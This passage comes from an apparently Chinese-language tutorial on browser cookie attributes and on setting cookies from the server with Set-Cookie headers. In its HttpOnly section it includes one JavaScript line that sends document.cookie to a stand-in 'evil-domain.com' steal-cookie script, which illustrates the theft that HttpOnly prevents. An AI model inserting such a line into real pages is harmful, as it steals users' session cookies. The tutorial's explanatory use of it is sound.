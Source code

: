 **4. cookie 的属性有哪些？**

- Expires：cookie 的过期时间，过期后，浏览器将删除这个 cookie。它的值是 UTC 格式。可以使用 Date.prototype.toUTCString()转换格式。如果不设置设个属性或设为 null，则是 session cookie。另外浏览器是根据本地时间决定 cookie 是否过期，所以 cookie 没办法保证是在服务器指定时间过期。

```javascript
document.cookie = "age=12;expires=" + new Date("2019-9-1");
// "age=12;expires=Sun Sep 01 2019 00:00:00 GMT+0800 (CST)"

// 要加时区才行
document.cookie = "age=12;expires=" + new Date("2019-9-1").toUTCString();
// "age=12;expires=Sat, 31 Aug 2019 16:00:00 GMT"
```

- Max-age：从现在开始过多少秒后 cookie 过期，比如一年是`60 * 60 * 24 * 365`。如果同时指定了 Expires 和 Max-Age，则 Max-Age 优先。如果没有指定，则是 session cookie。
- Domain：指定发 http 请求时，哪些域名要附带这个 cookie，如果没有指定，则默认是当前的一级域名，比如www.xx.com 会设为 xx.com。所以访问 xx.com 的任何子域，http 请求都会带这个 cookie。如果 Domain 不属于当前域名，浏览器会拒绝这个 cookie。当前发送 Cookie 的域名的一部分。
- Path：Path 属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，Path 属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH 属性是/，那么请求/docs 路径也会包含该 Cookie。当然，前提是域名必须一致，是绝对路径。
- Secure：只能服务端写入。https 下才会发送 cookie。如果是 http，浏览器会忽略从服务端发送来的 Secure 属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。
- HttpOnly：只能服务端写入。指定该 Cookie 无法通过 JavaScript 脚本拿到。通过 document.cookie、XMLHttpRequest 对象和 Request API 都获取不到，只有浏览器发出 http 请求时，才会带上该 Cookie，该属性可以防止第三方恶意代码获取 cookie。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

**5. 服务端操作 cookie**

服务端要设置 cookie，需要在 http 头里设置`Set-Cookie`字段，可以包含多个。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

除了值之外，还可以附加 cookie 的属性，一个 Set-Cookie 字段里面，可以同时包括多个属性，没有次序的要求。

```
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly

// 包括多个属性
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

如果服务器想改变一个早先设置的 Cookie，必须同时满足四个条件：Cookie 的 key、domain、path 和 secure 都匹配。举例来说，如果原始的 Cookie 是用如下的 Set-Cookie 设置的。

```
Set-Cookie: key1=value1; domain=example.com; path=/blog
```
